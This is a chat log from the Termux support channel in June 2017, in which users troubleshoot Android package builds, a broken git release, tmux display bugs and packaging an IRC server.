2017-06-02 02:27:07	frumpylava	sdrausty: Same kind of errors for cw-android, Just-a-damn-compass, cowsay-android, moon and abstract-art

2017-06-02 02:27:15	frumpylava	aarch64

2017-06-02 02:28:57	gitter1	(sdrausty) These APK compiles have only been tested on arm and aarch64 `cat /proc/cpuinfo`fir more.

2017-06-02 02:29:58	frumpylava	sdrausty: AArch64 Processor rev 4 (aarch64)

2017-06-02 02:30:32	gitter1	(sdrausty) frumpylava:  don't get where your errors can be coming from. Have any APKs built?

2017-06-02 02:30:43	frumpylava	no.

2017-06-02 02:31:00	gitter1	(sdrausty) Not good

2017-06-02 02:31:56	gitter1	(sdrausty) Bring this up at https://github.com/sdrausty/buildAPKs/issues

2017-06-02 02:45:35	frumpylava	done

2017-06-02 02:47:35	gitter1	(sdrausty) Cool. Sucks your getting these errors. There's a bunch of them...

2017-06-02 02:51:10	gitter1	(sdrausty) A number of people have tried out https://sdrausty.github.io/buildAPKs/easilyBuildAndroidAPKsonDevice successfully.

2017-06-02 02:52:17	gitter1	(sdrausty) frumpylava: What do you think could be causing those errors?

2017-06-02 02:53:18	gitter1	(sdrausty) frumpylava v did you `apt update && apt upgrade`?

2017-06-02 03:03:10	frumpylava	yes. Perhaps I'm missing some package that you have installed? Can you paste you `apt list --installed` somewhere so I can check what you have and I don't?

2017-06-02 03:04:33	gitter1	(sdrausty) `apt install *` is what is installed...

2017-06-02 03:05:12	frumpylava	sdrausty: You installed everything?

2017-06-02 03:05:47	gitter1	(sdrausty) However ⛵ `apt install *` brings up conflicts.

2017-06-02 03:06:37	gitter1	(sdrausty) Can we write a script to install everything without conflicts? I think we should.

2017-06-02 03:14:43	frumpylava	gitter1: what android version are you on?

2017-06-02 03:14:55	frumpylava	^@sdrausty

2017-06-02 03:17:23	gitter1	(sdrausty) frumpylava: https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsonDevice

2017-06-02 03:18:41	frumpylava	@sdrausty that doesn't answer my question.

2017-06-02 03:19:24	sdrausty	frumpylava: I am using a number of on devices.

2017-06-02 03:19:42	sdrausty	How about you?

2017-06-02 03:19:42	frumpylava	Any of them android 7.0?

2017-06-02 03:19:50	frumpylava	7.0

2017-06-02 03:20:15	sdrausty	They are not Andoid O, fir sure.

2017-06-02 03:20:33	frumpylava	Android N

2017-06-02 03:20:45	sdrausty	is yours 7?

2017-06-02 03:20:57	frumpylava	yes

2017-06-02 03:21:49	sdrausty	try out https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsonDevice on an older device, please.

2017-06-02 03:22:13	sdrausty	6

2017-06-02 03:22:39	frumpylava	sdrausty: I don't have any older devices.

2017-06-02 03:30:24	gitter1	(sdrausty) Can we write a script to install everything `apt install *` without conflicts? I think we should. Where should this be brought up as an issue?

2017-06-02 03:44:33	frumpylava	@sdrausty, that's a pretty ridicolous thing to do. Do you really need all packages?

2017-06-02 03:44:42	frumpylava	But sure, go ahead:

2017-06-02 03:44:44	frumpylava	apt list| grep -v "Listing..."|cut -d '/' -f 1| xargs -n 1 apt install -y

2017-06-02 03:46:23	frumpylava	This will just replace conflicts with whatever is further down the list.

2017-06-02 03:59:37	frumpylava	By the way, the Chihaya Torrent Tracker works pretty great in Termux. I use it to create a local only tracker, then use transmission-create to create a private torrent. I can now pretty easily share files with other people in the same network. I'll use this at conferences and congresses.

2017-06-02 04:08:58	gitter1	(sdrausty) frumpylava: sounds good!

2017-06-02 04:21:56	live_the_dream	if anyone is interested ... almost have gcc-7 ready

2017-06-02 05:13:59	frumpylava	Oh wow weird. @sdrausty's buildapks thing works in https://github.com/Neo-Oli/chrooted-termux, but not on the host system. So there must be some config I did or some thing that is available on the host system that isn't in the fresh chrooted-termux

2017-06-02 05:33:34	frumpylava	I wonder what that difference could be.

2017-06-02 10:39:14	th30nE	can

2017-06-02 11:44:45	Parthanon	Ayo

2017-06-02 12:19:43	parthanon	guys why is there no Bitchx on Termux? Just asking...

2017-06-02 12:21:25	rods-tab3	but there is profanity

2017-06-02 12:23:34	parthanon	whats profanity..

2017-06-02 12:29:22	parthanon	Fiiiiine ill check it out

2017-06-02 12:30:56	parthanon	Ok wait so which is better, irssi or profanity

2017-06-02 12:31:10	cottongin	weechat

2017-06-02 12:35:46	gitter1	(vishalbiswas) i use androirc. its better

2017-06-02 12:36:48	gitter1	(sdrausty) @vishalbiswas androirc: command not found

2017-06-02 12:37:27	gitter1	(vishalbiswas) @sdrausty I was kidding https://play.google.com/store/apps/details?id=com.androirc

2017-06-02 12:38:06	parthanon	Ive just had a look at Rice irc. i kinda like using a terminal though.

2017-06-02 12:38:26	gitter1	(sdrausty) frumpylava: TX for debugging information https://github.com/sdrausty/buildAPKs/issues

2017-06-02 12:49:41	parthanon	wc

2017-06-02 13:00:51	aleph-	frumpylava: Chihaya torrent tracker?

2017-06-02 13:03:40	aleph-	Ah, I see. Got a sample config I can look at for getting it deployed at home.

2017-06-02 13:06:56	frumpylava	aleph-: It's badly documented, but it mostly seems to work.

2017-06-02 13:07:14	aleph-	Gotcha

2017-06-02 13:07:49	aleph-	So it it as simple.as deploying it on a LAN and pushing files to it/handling out torrent links?

2017-06-02 13:11:51	frumpylava	aleph-: yes.

2017-06-02 13:12:01	aleph-	Gotcha. Thanks.

2017-06-02 13:13:54	frumpylava	I still have a probkem where transmission seems to stop seeding after a while and I have to restart it. But other than that it works.

2017-06-02 13:15:48	aleph-	Aye, gotcha.

2017-06-02 13:25:51	frumpylava	aleph-: But it's a very cool way to share files with a group of people at a conference or a hackerspace or similar situations.

2017-06-02 13:27:10	BrainDamage	still kind of awkward tought, yo need a central server to setup, hand the files etc

2017-06-02 13:33:31	frumpylava	BrainDamage: Well, if a tracker is running, everyone in the network can share files. They don't have to be seeded by termux also.

2017-06-02 13:39:45	BrainDamage	no, but, you need to create tracker files, and then share the file

2017-06-02 13:40:01	BrainDamage	sharing the file is then another problem

2017-06-02 13:40:30	BrainDamage	generally if you can share the torrent file you can as well share the original file

2017-06-02 13:40:57	BrainDamage	only if you're sharing multi-GB files to many users the torrent will yield an advantag

2017-06-02 15:00:25	frumpylava	BrainDamage: You can also just share a magnet link. It's just a short string that you can send someone via jabber / email

2017-06-02 15:02:17	BrainDamage	magnet implies there's a bootstrapped DHT p2p network

2017-06-02 15:02:51	BrainDamage	which implies in turn internet access, or, manual configuration of the bootstraping peer ip for master nodes to lan clients

2017-06-02 15:03:10	BrainDamage	first requires an internet connecton, latter configuring obscure shit

2017-06-02 15:10:36	frumpylava	BrainDamage: hmm... it seemes to work without that when I tested it. The magnet link contains the tracker url. But sharing small files is a lot easier than big files. But I agree that for sending a file to 1 friend using bittorrent is overkill. I plan to use it to share big files to multiple people.

2017-06-02 17:41:38	live_the_dream_s	hey frumpylava could you remove some old package requests that are completed? ncmpcpp is one

2017-06-02 17:42:23	live_the_dream_s	requesr for syncthing is another

2017-06-02 17:48:13	aleph-	Eh, I'll stick to using syncthing from f-droid. Seems easier.

2017-06-02 17:52:43	live_the_dream_s	its not there as a replacement

2017-06-02 17:53:06	live_the_dream_s	2 reasons ... 1 usable in your home dir

2017-06-02 17:53:22	live_the_dream_s	2 able to be run as root...

2017-06-02 17:53:25	aleph-	Fair point.

2017-06-03 01:03:21	u0_a166	is there a way to access MMS messages (not only SMS)?

2017-06-03 05:44:46	u0_a206	howdy

2017-06-03 05:45:09	u0_a206	do you have any idea why tsu isn't working?

2017-06-03 05:45:32	u0_a206	i mean i works but it says permission denied

2017-06-03 05:46:04	u0_a206	$ tsu

2017-06-03 05:46:05	u0_a206	# nano

2017-06-03 05:46:07	u0_a206	bash: /data/data/com.termux/files/usr/bin/nano: Permission denied

2017-06-03 05:46:10	u0_a206	#

2017-06-03 07:45:03	th30nE	I'm trying to copy a file x to y with cp -u x >y but everytime it returns error. Am I missing something?

2017-06-03 08:12:34	gitter1	(jhegedus42) can i trigger a keyboard up event from command /i

2017-06-03 08:12:38	gitter1	(jhegedus42) line?

2017-06-03 08:13:26	gitter1	(jhegedus42) i am having this issue https://github.com/termux/termux-packages/issues/1063

2017-06-03 08:13:42	gitter1	(jhegedus42) really puzzling

2017-06-03 08:14:01	gitter1	(jhegedus42) any idea why this might be happening?

2017-06-03 08:16:56	onexore	I'm using nextapp keyboard and when on editor i just slide from left to trigger keyboard ... Dont know if it termux feature or keyboard app releted function

2017-06-03 08:17:18	onexore	Its just works ;)

2017-06-03 08:17:53	gitter1	(jhegedus42) from left?

2017-06-03 08:18:54	onexore	Yup

2017-06-03 08:18:58	joco42	i'm jhegedus42 from irc

2017-06-03 08:19:03	joco42	hmm

2017-06-03 08:19:30	joco42	ok

2017-06-03 08:19:33	joco42	strange

2017-06-03 08:19:53	joco42	but how is termux opening the keyboard?

2017-06-03 08:20:06	joco42	on the left there is a keyboard button

2017-06-03 08:20:21	joco42	can i trigger that from terminal?

2017-06-03 08:20:24	joco42	or bash?

2017-06-03 08:21:08	joco42	maybe send some mouse event to the main terminal?

2017-06-03 08:21:13	joco42	programmatically

2017-06-03 08:21:35	joco42	that could work

2017-06-03 08:23:53	joco42	or maybe call tasker from termux

2017-06-03 08:24:05	joco42	and tasker opens the keyboard

2017-06-03 08:24:08	joco42	somehow

2017-06-03 08:41:37	onexore	https://pastebin.com/Kz8m87Kr found that on telegram group, switching keyboard from gboard to hacker's keyboard ... Maybe u can elaborate more, dunno for sure ;)

2017-06-03 08:54:33	cori1	Hey guys

2017-06-03 08:54:57	cori1	I'm wondering how can I setup password auth for ssh in termux

2017-06-03 08:54:59	cori1	Using either openssh or dropbear servers

2017-06-03 09:20:19	onexore	Got this from termux help section : The Termux sshd binary does not support password logins, so a key needs to be authorized in ~/.ssh/authorized_keys before connecting. Use ssh-keygen to generate a new one if desired.

2017-06-03 09:35:05	joco42	thank onexore

2017-06-03 09:50:50	cori1	well sad

2017-06-03 10:55:47	Y2kVd	How can I close/delete sessions

2017-06-03 12:02:41	u0_a107	test

2017-06-03 12:04:29	 *	u0_a107 zero1

2017-06-03 12:05:37	u0_a107	hgfd

2017-06-03 12:07:10	u0_a107	test5

2017-06-03 12:14:12	u0_a107	exit

2017-06-03 15:32:12	sdrausty	IRC/Gitter bot is down

2017-06-03 17:31:08	sdrausty	frumpylava: IRC/Gitter bot is down

2017-06-03 17:32:10	rods-tab3	yea all IRC is down .. only bots left are posting

2017-06-03 17:34:47	msyea	Have a noob question. If I install mariadb or postgresql via apt, how do I start the service?

2017-06-03 18:39:58	sdrausty	https://plus.google.com/109614420080028230010/posts/GF9xmkh2iob is not showing up on Google+ Termux

2017-06-03 18:40:08	sdrausty	IRC/Gitter bot is down

2017-06-03 20:19:05	u0_a166	msyea : i think this might help esp. sections 3-4 https://www.postgresql.org/docs/9.4/static/tutorial-start.html

2017-06-03 20:25:13	u0_a166	Y2kVd : a terminal session from the shell? usually "exit" command, or ctrl-D. Long press the screen (or ctrl-alt-M) and click "kill process" can stop your shell but not best way. Android Settings->Apps->...Termux should have a "force stop" option too.

2017-06-03 20:41:26	rods-tab3	draging from  left edge displays all sessions - where they can be terminated

2017-06-04 11:22:36	sdrausty	IRC/Gitter bot is down

2017-06-04 11:22:36	sdrausty	Please fix the IRC/Gitter bot

2017-06-04 11:59:27	onexore	Hello guys ...

2017-06-04 22:25:55	aleph-	Shite. Means I can't ask vish a question.

2017-06-04 22:26:30	aleph-	live_the_dream_s: Since rust and cargo are working. Can rustup be made to work? Want to get nightly rust running on my phone.

2017-06-04 22:38:45	live_the_dream_s	hmm don't know ... probably. im working on other stuff

2017-06-04 23:02:41	gitter1	(mklein994) I just checked and the lua interface (or whatever you want to call it) works in neovim:

2017-06-04 23:02:41	gitter1	(mklein994) ```vim

2017-06-04 23:02:41	gitter1	(mklein994) :lua vim.api.nvim_command('echo "Hello, Neovim!"')

2017-06-04 23:02:41	gitter1	(mklein994) ```

2017-06-04 23:22:28	gitter1	(vishalbiswas) aleph- probably not. but it never hurts to try

2017-06-04 23:23:42	gitter1	(vishalbiswas) rustup supplies android binaries, too. But they are a little different than the ones in termux. You'll need to have `TMPDIR` set to use them

2017-06-04 23:25:04	gitter1	(vishalbiswas) or you can compile rust nightly from source, too

2017-06-04 23:39:52	live_the_dream_s	TMPDIR is set now

2017-06-04 23:40:07	live_the_dream_s	as of version something

2017-06-04 23:40:26	gitter1	(vishalbiswas) 0.50?

2017-06-04 23:44:25	live_the_dream_s	48

2017-06-04 23:45:06	live_the_dream_s	no 49

2017-06-05 02:50:07	Regenaxer	Really frustrating this refresh bug of Tmux on Termux

2017-06-05 02:57:06	live_the_dream_s	q`s

2017-06-05 03:00:10	Regenaxer	Nobody else here uses tmux on termux?

2017-06-05 03:01:36	Regenaxer	If I scroll pages in e.g. vim or mutt, garbage remains on parts of the screen

2017-06-05 03:04:35	Regenaxer	I think tmux an termux are an ideal combination, see https://picolisp.com/wiki/?TermuxPentiPicolisp

2017-06-05 03:05:00	Regenaxer	But with that bug it is disturbing

2017-06-05 03:55:53	frumpylava	Regenaxer: I also experience this bug. It's especially bad in mutt.

2017-06-05 03:56:20	Regenaxer	yeah

2017-06-05 03:56:44	Regenaxer	ok, good to know it is not my setup

2017-06-05 03:57:13	Regenaxer	Probably an ncurses issue

2017-06-05 04:29:39	sdksdk	hey guys, quick question

2017-06-05 04:29:46	sdksdk	is there any way to tabcomplete in termux?

2017-06-05 04:31:17	Regenaxer	yes, you can put  bind 'TAB:menu-complete'  into your .bashrc

2017-06-05 04:31:55	Regenaxer	and also:  . /data/data/com.termux/files/usr/share/bash-completion/bash_completion

2017-06-05 04:33:40	sdksdk	whelp, quite logic. sorry and thanks

2017-06-05 04:34:23	Regenaxer	np :)

2017-06-05 06:08:06	gitter1	(lv2eof) Hi. Another question :)

2017-06-05 06:10:37	gitter1	(lv2eof) Which is the first script that is executed when we login to termux?

2017-06-05 06:10:55	Regenaxer	I think .profile

2017-06-05 06:11:08	Regenaxer	At least I use it to call .bashrc

2017-06-05 06:12:14	Regenaxer	bbl

2017-06-05 06:13:02	gitter1	(lv2eof) Ok @Regenaxer. Thanks a lot. I will see and then come back.

2017-06-05 06:13:39	gitter1	(noncom) I experience screen garbage problems with tmux when split in multiple panes all the time. It happens on all platform combinations. Long time ago I was thinking it was a problem of connecting to a tmux session over SSH from a windows machine. But since then I've learned that it happens on any setup. Having htop running on one of the panes brings total destruction to nearby screens

2017-06-05 06:16:03	gitter1	(noncom) my guess is that somehow it miscalculates width of the output. probably tries using global width for output in a pane with smaller width and the lines overflow

2017-06-05 07:01:08	paradigm	Has anyone found more information about the /proc permissions change? https://github.com/termux/termux-app/issues/299

2017-06-05 07:01:16	paradigm	My google-fu isn't picking up anything and I find it worrying

2017-06-05 07:48:59	Regenaxer	gitter1: I see the garbage also without panes. Some text in the middle of some lines is simply not cleared, so it seems not a width problem to me

2017-06-05 07:49:30	Regenaxer	In vim I see sometimes two lines deleted when I deleted just one

2017-06-05 07:50:11	Regenaxer	Then I need to refresh the whole view, eg go to end of file and back, to see it correctly again

2017-06-05 07:50:56	Regenaxer	So I think it is ncurses somehow being clever in not refreshing all relevant parts of the screen, or the wrong ones

2017-06-05 11:36:40	gitter1	(n1had5_twitter) Where is the sources.list located? (looked it up online bt, could'nt find any results)

2017-06-05 12:42:37	gitter1	(vishalbiswas) @n1had5_twitter $PREFIX/etc/apt

2017-06-05 17:01:29	gitter1	(noncom) @sdrausty yeah, I am collecting, re-checking and brushing up the existing information to put in the report. I should be through soon

2017-06-05 18:04:19	gitter1	(sdrausty) @noncom sounds very good. Thanks for taking the time to give some feedback regarding https://plus.google.com/109614420080028230010/posts/GF9xmkh2iob

2017-06-05 18:25:21	gitter1	(lv2eof) @Regenaxer. You mean at user level but I would like to know at machine level. One that I saw that is executed is "/data/data/com.termux/files/usr/bin/login". Anyway I can't figure where the PATH variable is defined. Do you know?

2017-06-05 18:56:53	gitter1	(mklein994) @fornwall `git` is broken for me. I'll post an example in a minute.

2017-06-05 19:14:59	gitter1	(mklein994) ```console

2017-06-05 19:14:59	gitter1	(mklein994) $ git clone https://github.com/termux/termux-packages

2017-06-05 19:14:59	gitter1	(mklein994) Cloning into 'termux-packages'...

2017-06-05 19:14:59	gitter1	(mklein994) [full message: https://gitter.im/termux/termux?at=5935e5ec6462d8493ce3289a]

2017-06-05 22:19:31	gitter1	(vishalbiswas) @pbewig that isn't where it fails. run make in single job mode (`make -j1`) to know which step fails

2017-06-05 22:26:16	gitter1	(vishalbiswas) @lv2eof its defined by the termux-app itself. You might want to look at the android part of the code. A dictionary of initial environment variables is used while creating a new session. https://github.com/termux/termux-app/blob/master/app/src/main/java/com/termux/app/BackgroundJob.java#L111

2017-06-05 22:42:24	gitter1	(pbewig) @vishalbiswas: I ran make -j1. Same error. Something in the guile build is assuming something about where files are stored that termux doesn't do the same way as a normal unix system. I'm trying to figure out what that is.

2017-06-05 22:43:19	gitter1	(vishalbiswas) @pbewig i know same error. but it should occur after another step and not after `GEN guile-procedures.texi`

2017-06-05 22:45:29	gitter1	(pbewig) @vishalbiswas: Error occurs after same step.

2017-06-05 23:28:10	gitter1	(mklein994) Anyone else having problems with git?

2017-06-06 00:34:35	gitter1	(vishalbiswas) @mklein994 only in termux-chroot

2017-06-06 00:35:50	gitter1	(vishalbiswas) @mklein994 scratch that. git is broken

2017-06-06 00:37:16	gitter1	(mklein994) Alright, so I'm not the only one.

2017-06-06 00:42:11	gitter1	(vishalbiswas) @mklein994 android is little endian, right?

2017-06-06 00:48:09	gitter1	(vishalbiswas) https://git.kernel.org/pub/scm/git/git.git/commit/?id=d0506fc419f61266e49077b7bed255d7691c0919

2017-06-06 00:52:00	gitter1	(mklein994) I'm not sure. Let me know if anything changes.

2017-06-06 05:06:56	frumpylava	That git bug kills a lot of programs. Everything seems to rely on git these days.

2017-06-06 05:13:23	frumpylava	fornwall_: Is there a technical reason you don't leave old .debs on termux.net? It would really help if we had an easy way to downgrade packages if we have a crippling bug with a new version like today.

2017-06-06 05:25:30	gitter1	(noncom) oops, what's up? the new git  package is broken?

2017-06-06 05:25:34	gitter1	(noncom) should I NOT upgrade?

2017-06-06 05:30:47	fornwall_	hm, I'm looking into the git issue

2017-06-06 05:31:17	fornwall_	frumpylava: right, leaving old debs (at least for a few weeks) is probably reasonable

2017-06-06 05:32:27	frumpylava	@noncom Don't upgrade git yet. It's completely broken

2017-06-06 05:34:01	frumpylava	fornwall_: Yeah, a few weeks should be enough. It would also somewhat mitigate the problem where people run "apt install <package>" without "apt update" first, which tries to install now missing debs.

2017-06-06 05:53:28	fornwall_	I've pushed a git update to version 2.13.1.1. it really is 2.13.0, but uses a higher version number to be seen as an update. so it should be safe to update now while we look for a proper fix of git 2.13.1 later

2017-06-06 05:54:29	frumpylava	fornwall_: That's great. thanks.

2017-06-06 07:40:48	gitter1	(mklein994) @fornwall that fixed it. Thanks!

2017-06-06 07:42:16	gitter1	(mklein994) Wouldn't the version number be 2.13.0-1 (or 2.13.0-2) though?

2017-06-06 07:43:22	gitter1	(mklein994) I thought the dash showed the difference between maintainer updates and version updates.

2017-06-06 07:43:53	gitter1	(mklein994) Or that might only be how it's done on Arch Linux.

2017-06-06 07:44:29	frumpylava	@mklein994 yeah, but apt wouldn't recognize 2.13.0-1 as an update to 2.13.1-1

2017-06-06 07:45:37	gitter1	(mklein994) Not now; I understand. Just seems misleading to say that it has a more recent version. Maybe it can adopt that method in 2.13.2 or something.

2017-06-06 07:46:06	frumpylava	@mklein994 you mean - vs .?

2017-06-06 07:48:32	gitter1	(mklein994) Yeah? Otherwise it looks like git was updated to version 2.13.1.1, as opposed to git getting a patch to fix a build error (i.e. 2.13.0 => 2.13.0-1).

2017-06-06 07:49:03	frumpylava	@mklein994 normally in termux - is used for maintainer updates (check profanity for example). It was probably set to 2.13.1.1 instead of 2.13.1-1 by mistake.

2017-06-06 07:49:57	frumpylava	@mklein994 it's because the version number was specified manually (here https://github.com/termux/termux-packages/commit/d6315450c9368c3c61a93a4ebeb6762b855a78b2#diff-443517913f9badc2bcb795761028f023R5). Normally it makes a - automatically.

2017-06-06 07:50:13	gitter1	(mklein994) Yeah probably. Not a big deal; I just thought it would be better to do that in the future.

2017-06-06 07:52:53	gitter1	(mklein994) Looks like it's set using `$TERMUX_PKG_REVISION`.

2017-06-06 11:33:00	gitter1	(noncom) is there any way to stop Termux from vibrating?

2017-06-06 15:20:12	gitter1	(sdrausty) Build over one hundred APKs onDevice https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsonDevice

2017-06-06 16:38:05	fornwall_	frumpylava @mklein994: about the revision - normally it's $UPSTREAM_VERSION-$REVISION, so the logical version for the current git package would be 2.13.0-1 as you say

2017-06-06 16:39:02	fornwall	the problem is that we need the current version to be higher than the faulty 2.13.1 version

2017-06-06 16:39:53	fornwall	so, 2.13.1-1 would probably be a better choice than 2.13.1.1, but would still really be a lie

2017-06-06 16:40:44	fornwall	there is a third version construct in deb files, in that you can precede the version&revision with an 'epoch' number, to correct mistakes such as this

2017-06-06 16:41:10	fornwall	$EPOCH:$UPSTREAM_VERSION-$REVISION

2017-06-06 16:42:48	fornwall	so we could call the current package 2:2.13.0-1, and the 2: epoch part would mean that we are on our second version scheme for the package, and apt&dpkg would consider it higher than anything without a "$EPOCH:" prefix

2017-06-06 16:43:24	fornwall	however, the annoying thing is there is no way back, you need to keep the "2:" epoch part forever (or bump it to 3:, ..)

2017-06-06 16:43:59	fornwall	(the golang package currently use this due to a historic mistake in version numbering)

2017-06-06 16:44:38	fornwall	so, for the git package, we instead lie a little bit now, and await 2.13.2 or 2.14.0 which will fix the incorrect version numbering scheme

2017-06-06 19:31:43	gitter1	(mklein994) Yeah, I'd go with that; that's how other packages in this repo ~were~ are resolved. Epoch is ideally (IMHO) reserved for when upstream decides to decrease version numbers for some reason.

2017-06-06 19:36:15	rods-tab3	3.11 < 3.2 but 2 < 11  (in some number systems)

2017-06-06 21:59:27	gitter1	(vishalbiswas) rods-tabs3: welcome to version numbering

2017-06-06 22:21:29	live_the_dream_s	going to see if i can R working in vncserver  vish

2017-06-06 22:40:54	gitter1	(sdrausty) Does anyone know of open source APKs for book projects? There is something that comes close at https://github.com/sdrausty/buildAPKs/tree/master/sourcesOfAPKsBuiltOnDevices/Manpages to what I am seeking, more like a book.

2017-06-06 22:43:22	gitter1	(sdrausty) I have tried`book APK site:github.con` searches: No results.

2017-06-06 22:52:19	gitter1	(vishalbiswas) @sdrausty there are a lot of tutorial and documentation apps for programming languages, etc on the play store but not many of them are open source

2017-06-06 22:53:21	gitter1	(vishalbiswas) live_the_dream_s: I'll update that x11 branch sometime this week

2017-06-06 22:54:33	live_the_dream_s	im trying to get gtk to work almost there

2017-06-06 22:55:35	gitter1	(vishalbiswas) live_the_dream_s: I tried, too. but no luck for me

2017-06-06 22:56:20	gitter1	(sdrausty) @vishalbiswas thank you. That's what I also found a while ago regarding book APK topic.

2017-06-06 23:02:36	gitter1	(sdrausty) Can we get `ircd`packaged for Termux?

2017-06-06 23:04:07	gitter1	(vishalbiswas) @sdrausty git repo link?

2017-06-06 23:04:29	gitter1	(sdrausty) APK onDevice?

2017-06-06 23:05:36	gitter1	(vishalbiswas) @sdrausty ircd

2017-06-06 23:06:10	gitter1	(sdrausty) @vishalbiswas ://github.com/ircd-hybrid/ircd-hybrid

2017-06-06 23:06:18	gitter1	(sdrausty) https

2017-06-06 23:06:28	gitter1	(vishalbiswas) don't need https

2017-06-06 23:06:53	gitter1	(sdrausty) ?

2017-06-06 23:08:16	gitter1	(vishalbiswas) @sdrausty doesn't look complex. if i can, i'll do it in 2 hours

2017-06-06 23:14:28	gitter1	(sdrausty) @vishalbiswas thank you. Good luck!

2017-06-06 23:15:11	gitter1	(sdrausty) Screen source messmer https://github.com/sdrausty/sdrausty.github.io/blob/master/bitpics/irc.png

2017-06-06 23:19:13	gitter1	(vishalbiswas) @sdrausty what is its package name in Ubuntu?

2017-06-06 23:20:26	gitter1	(sdrausty) @vishalbiswas tried `find -type f -exec termux-fix-shebang {} \;` on device (a smartphone).

2017-06-06 23:20:57	gitter1	(sdrausty) checking whether yytext is a pointer... yes

2017-06-06 23:20:57	gitter1	(sdrausty) : error: cannot run /bin/sh ./config.sub

2017-06-06 23:21:08	gitter1	(sdrausty) configure

2017-06-06 23:21:13	gitter1	(vishalbiswas) @sdrausty `export CONFIG_SHELL=sh`

2017-06-06 23:23:03	gitter1	(sdrausty) `export CONFIG_SHELL=sh`messmer wow

2017-06-06 23:23:27	gitter1	(sdrausty) Configuration complete.  Type make

2017-06-06 23:27:36	gitter1	(sdrausty) /data/data/com.termux/files/home/git/sdrausty/ircd-hybrid000/tools/mkpasswd.c:161: undefined reference to `getpass'

2017-06-06 23:27:36	gitter1	(sdrausty) clang-4.0: error: linker command failed with exit code 1 (use -v to see invocation)

2017-06-06 23:27:55	gitter1	(vishalbiswas) it requires getpass. @fornwall can we create another support lib with functions like getpass in them? getpass is already used by 12 packages

2017-06-06 23:28:01	gitter1	(sdrausty) make: *** [Makefile:369: all] Error 2

2017-06-06 23:30:38	gitter1	(sdrausty) Passwords​ are an issue. While we are at it could we mount and span volumes​...

2017-06-06 23:34:19	gitter1	(sdrausty) On an sdcard the largest file size is ~2GB. So​let's say 16 files mounted would give a nice 32GB drive (with complete multi user permissions).

2017-06-06 23:36:19	gitter1	(vishalbiswas) @sdrausty what arch are you on?

2017-06-06 23:36:49	gitter1	(sdrausty) arm and aarch64 How about you?

2017-06-06 23:38:20	gitter1	(sdrausty) With your diagnosis it doesn't make much sense to rebuild on arm. Does it?

2017-06-06 23:40:14	gitter1	(vishalbiswas) @sdrausty https://drive.google.com/open?id=0B8Q4yBRb9PSHZ0xjei1senVKeWc tell me whether it works well. probably fails when you set up a hostname

2017-06-06 23:43:11	gitter1	(vishalbiswas) i uploaded aarch64 too

2017-06-06 23:43:39	gitter1	(sdrausty) dpkg-deb: error: 'irc.deb' is not a debian format archive

2017-06-06 23:43:40	gitter1	(sdrausty) dpkg: error processing archive irc.deb (--install):

2017-06-06 23:44:31	gitter1	(vishalbiswas) @sdrausty try the aarch64 one

2017-06-06 23:45:53	gitter1	(sdrausty) $ dpkg -i /sdcard/Download/ircd-hybrid_8.2.22_arm.deb

2017-06-06 23:45:53	gitter1	(sdrausty) dpkg: error processing archive /sdcard/Download/ircd-hybrid_8.2.22_arm.deb (--install):

2017-06-06 23:45:53	gitter1	(sdrausty)  package architecture (arm) does not match system (aarch64)

2017-06-06 23:46:15	gitter1	(sdrausty) Where is the aarch64 one?

2017-06-06 23:46:23	gitter1	(vishalbiswas) in the same folder

2017-06-06 23:46:29	gitter1	(vishalbiswas) https://drive.google.com/drive/folders/0B8Q4yBRb9PSHcVAxbjhZQmszbVU

2017-06-06 23:48:07	gitter1	(vishalbiswas) @sdrausty your download is corrupted. I can install just fine

2017-06-06 23:50:24	sdrausty	ircd: version hybrid-8.2.22(20170326_8085)

2017-06-06 23:50:24	sdrausty	ircd: pid 29313

2017-06-06 23:50:24	sdrausty	ircd: running in background mode from /data/data/com.termux/files/usr

2017-06-06 23:50:47	sdrausty	gitter's down though

2017-06-06 23:50:54	gitter1	(vishalbiswas) but closes immediately because it can't find configuration

2017-06-06 23:52:19	gitter1	(sdrausty) Closes like you said. And Gitter is back up.

2017-06-07 00:02:40	gitter1	(sdrausty) Does not like `ircd -configfile /data/data/com.termux/files/usr/etc/reference.conf` either.

2017-06-07 00:04:00	gitter1	(vishalbiswas) just a minute

2017-06-07 00:06:53	gitter1	(sdrausty) Probably should change some of the parameters to 127.0.0.1

2017-06-07 00:10:10	gitter1	(vishalbiswas) @sdrausty any other recommendations?

2017-06-07 00:10:48	gitter1	(amreisa) Hello

2017-06-07 00:11:20	gitter1	(amreisa) I want know Termux

2017-06-07 00:12:27	gitter1	(amreisa) I want know if Termux have Qt paxk ?

2017-06-07 00:13:12	gitter1	(sdrausty) @vishalbiswas does not like 127.0

2017-06-07 00:13:23	gitter1	(sdrausty) 0.1 either.

2017-06-07 00:13:48	gitter1	(vishalbiswas) @sdrausty that is not the problem. I've solved it. am just adding gnutls support

2017-06-07 00:14:34	gitter1	(sdrausty) Great!

2017-06-07 00:15:47	gitter1	(vishalbiswas) @amreisa currently there is not gui/qt support in termux

2017-06-07 00:16:12	gitter1	(amreisa) Did Termux have Qt pack ?

2017-06-07 00:16:45	gitter1	(amreisa) did QtCore work ?

2017-06-07 00:17:20	gitter1	(vishalbiswas) @amreisa no, Qt is not available

2017-06-07 00:18:55	gitter1	(amreisa) @vishalbiswas Thx for help I hopeI can use Qt with termux soon

2017-06-07 00:19:45	gitter1	(amreisa) Can I use it with linux with install script ?

2017-06-07 00:21:00	gitter1	(vishalbiswas) @amreisa its not clear what you mean to ask...

2017-06-07 00:23:00	gitter1	(amreisa) Can I install linux with termux ?

2017-06-07 00:24:25	gitter1	(amreisa) if yes then I can run Qt caruater

2017-06-07 00:26:48	gitter1	(amreisa) creator

2017-06-07 00:27:03	gitter1	(vishalbiswas) @amreisa no, termux is separate. its a collection of cli tools

2017-06-07 00:28:00	gitter1	(amreisa) Thanks.

2017-06-07 01:12:07	gitter1	(vishalbiswas) @sdrausty I updated the packages again. please check and tell whether they work for you or not

2017-06-07 01:50:33	gitter1	(jaytula) just wondering if there's any active work on trying to build the php7 package with mysql support for termux?  it must be hard for some reason.

2017-06-07 02:10:49	frumpylava	@jaytula I did a pull request for it and it works pretty good. The problem is that it relies on mariadb which, at the moment, can't be built for arm.

2017-06-07 02:12:01	frumpylava	@jaytula, but we expect the new NDK version, which should be released any moment now will fix this issue. Then php can be built with mysql support.

2017-06-07 02:47:19	gitter1	(jaytula) frumpylava: thanks for the  great answer :)

2017-06-07 08:25:15	parvathy	hey

